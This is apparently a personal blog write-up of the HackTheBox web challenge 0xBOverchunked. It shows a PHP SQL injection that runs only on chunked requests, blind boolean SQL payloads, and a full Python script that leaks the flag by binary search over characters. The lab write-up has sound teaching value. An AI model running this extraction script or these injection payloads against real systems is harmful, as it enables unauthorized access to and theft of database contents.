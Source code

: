 ```yaml
---
title: When Leetcode Meets Hacking
description: Solution for HTB Web Challenge 0xBOverchunked
date: 2024-02-08 02:45:01-0700
image: img/hackthebox.jpg
categories:
    - HackTheBox
tags:
    - web
    - htb
    - easy
---
```


# Intro

Given that I'm currently grinding leetcode and app sec stuff, this challenge was super enjoyable.
The vulnerability is very straightforward and easy to spot, and you get to write a binary search script to leak the flag (you don't have to, but it does offer optimal time complexity).

# Walkthrough

There is an SQL injection available within the `unsafequery()` function.

```php
function unsafequery($pdo, $id)
{
    try
    {
        $stmt = $pdo->query("SELECT id, gamename, gamedesc, image FROM posts WHERE id = '$id'");
        $result = $stmt->fetch(PDO::FETCH_ASSOC);
        return $result;
    }
    catch(Exception $e)
    {
        http_response_code(500);
        echo "Internal Server Error";
        exit();
    }
}
```

This unsafe function can only be called when we have the `Transfer-Encoding: chunked` header in our request, but if the query succeeds then we will only see an error message.

```php
if (isset($_SERVER["HTTP_TRANSFER_ENCODING"]) && $_SERVER["HTTP_TRANSFER_ENCODING"] == "chunked")
{
    $search = $_POST['search'];
    $result = unsafequery($pdo, $search);

    if ($result)
    {
        echo "<div class='results'>No post id found.</div>";
    }
    else
    {
        http_response_code(500);
        echo "Internal Server Error";
        exit();
    }
}
```
However, this is enough for blind SQL.
We can iterate over the indices of the flag value, and compare each substring of length 1 at that index with another character, and make educated guesses about the value of the flag.
Take a look at the following:

```
SELECT id, gamename, gamedesc, image from posts where id = '1' AND 1=1 ;--
SELECT id, gamename, gamedesc, image from posts where id = '1' AND substr('HTB', 1, 1) = 'H' ;--
SELECT id, gamename, gamedesc, image FROM posts WHERE id = '1' AND substr((SELECT gamedesc FROM posts WHERE id = '6'), 1, 1) > 'A' ;--
```
All of these statements will execute successfully, giving us the `No post id found` message.

It's just a slightly more convuluted basic SQL injection, but you base your guess of the flag value based on whether the second condition resolves to True or False.
This is where leetcode comes in.
So the flag can contain any value from 0x20 to 0x7f (that is just the readable ASCII range).
So we can use a binary search algorithm to make a guess as to whether a character in the flag is greater or lesser than some mid range value.
We just take the mid point of 0x20 and 0x75, create a query that will give us the `No post id found` message if the flag letter is greater, or give us a 500 error if its not.
Then we readjust the range, and keep repeating until only 1 character is left.

```python
#!/usr/bin/python3

import requests

URL = "http://localhost:1337"
PATH = "/Controllers/Handlers/SearchHandler.php"

def build_query(idx, c):
        query = f"search=6' AND substr((SELECT gamedesc FROM posts where id = '6'), {idx}, 1) > '{c}' ;--"
        payload = ""
        payload += f"{len(query):X}\r\n"
        payload += query
        payload += "\r\n"
        payload += "0\r\n"
        payload += "\r\n"

        return payload

def make_request(payload):
        headers = {
                "Content-Type": "application/x-www-form-urlencoded",
                "Transfer-Encoding": "chunked"
                }
        r = requests.post(URL + PATH, data=payload, headers=headers)
        if r.status_code == 200:
                return True
        else:
                return False

def find_letter(idx):
        start = 32
        end = 127

        while (end - start) > 0:
                mid = (start + end) // 2
                q = build_query(idx, chr(mid))
                correct = make_request(q)
                if correct:
                        start = mid + 1
                else:
                        end = mid
        
        return chr(start)

print("[i] LEAKING FLAG: ", end="")
letter = ""
ctr = 1
while letter != "}":
        letter = find_letter(ctr)
        print(letter, end="")
        ctr += 1
```
